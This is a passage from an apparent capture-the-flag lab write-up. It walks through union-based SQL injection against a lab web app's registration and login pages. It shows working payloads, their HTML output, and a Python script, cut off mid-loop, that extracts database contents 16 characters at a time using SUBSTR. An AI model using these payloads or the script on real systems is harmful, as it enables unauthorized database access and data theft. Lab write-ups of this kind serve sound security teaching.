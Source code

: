 Using the script to test for **union-based SQL injection**, we confirm that it works.

```console
$ ./sqli_automate.py 'http://10.10.104.157/' '" UNION SELECT 1;#'
...
<thead><th>User 6 - " UNION SELECT 1;# last logins</th></thead><tbody>
SQLSTATE[21000]: Cardinality violation: 1222 The used SELECT statements have a different number of columns</tbody></table>
...
```
{: .wrap }

Enumerating the column count in the query, we discover that there are two columns, with the second column being reflected in the output.

```console
$ ./sqli_automate.py 'http://10.10.104.157/' '" UNION SELECT 1,2;#'
...
<thead><th>User 10 - " UNION SELECT 1,2;# last logins</th></thead><tbody>
<tr><td>2</td></tr>
...
```

Since we have a working payload, we can begin enumerating the database, starting with the database names.

```console
$ ./sqli_automate.py 'http://10.10.104.157/' '" UNION SELECT 1,group_concat(schema_name) FROM information_schema.schemata;#'
...
<thead><th>User 11 - " UNION SELECT 1,group_concat(schema_name) FROM information_schema.schemata;# last logins</th></thead><tbody>
<tr><td>information_sche</td></tr>
...
```
{: .wrap }

When attempting to extract data from the database, we encounter a problem. Although the application displays the second column in our query, it only shows the first **16** characters.

### Enumerating the Database

We can address this problem by modifying our script to send our payload in a loop, extracting **16** characters at a time using the `SUBSTR` function in **MySQL**. Additionally, we can use `bs4` to parse the response and print only the part we are interested in.

```py
#!/usr/bin/env python3

import requests
import sys
from bs4 import BeautifulSoup

url_base = sys.argv[1]
payload = sys.argv[2]
index = 1

while True:
    sqli_payload = f'" UNION SELECT 1,SUBSTR(({payload}), {index}, 16);#'
    s = requests.session()
    s.post(url_base + "register.php", data={"username": sqli_payload, "password": "jxf", "submit": "Submit Query"})
    s.post(url_base + "login.php", data={"username": sqli_payload, "password": "jxf", "login": "Submit Query"})
    r = s.get(url_base)
    soup = BeautifulSoup(r.text, "html.parser")
    tables = soup.find_all("table", class_="u-full-width")
    output = tables[1].find("td").get_text()
```